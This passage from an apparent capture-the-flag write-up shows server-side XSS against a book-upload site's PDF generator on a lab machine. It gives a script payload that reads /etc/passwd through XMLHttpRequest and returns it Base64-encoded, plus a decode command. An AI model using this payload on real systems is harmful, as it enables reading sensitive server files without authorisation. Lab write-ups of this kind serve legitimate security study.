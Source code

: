 ```bash
# http://10.10.10.176/collections.php
# http://10.10.10.176/admin/collections.php

# http://10.10.10.176/collections.php
# http://10.10.10.176/search.php

# http://10.10.10.176/admin/collections.php
# file:///tmp/mozilla_al3j00/51123.pdf
```

<br />
<img src="{{ site.img_path }}/book_writeup/Book_63.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_64.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_65.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/book_writeup/Book_66.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_67.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_68.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Then I modify the **technique** o the **target** but not the attack vector, this time I perform the **HTML injection** directly in the fields that I have control, first in the **author** field but it seems that there is some kind of sanitization because the injection is not interpreted. The next test is using the **title** field of the book but I also use the **JavaScript** function **btoa** so that the content of the **[sensitive file is leaked in Base64](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf.html?highlight=xss%20read%20local%20file#read-local-file--ssrf){:target="_blank"}** encoding (in case there is any protection measure) and this time I achieve my goal. With `base64` I can decode the content of the file, and if I perform a test but without using **Base64** encoding I can also access the content.

```bash
# http://10.10.10.176/collections.php
# Author = <script> x=new XMLHttpRequest; x.onload=function(){document.write(btoa(this.responseText))}; x.open("GET","file:///etc/passwd");x.send(); </script>
# http://10.10.10.176/admin/collections.php

# http://10.10.10.176/collections.php
# http://10.10.10.176/admin/collections.php
# file:///tmp/mozilla_al3j00/7999.pdf
# :)

echo cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxO | base64 -d; echo

# http://10.10.10.176/collections.php
# http://10.10.10.176/admin/collections.php
# file:///tmp/mozilla_al3j00/59339.pdf
```
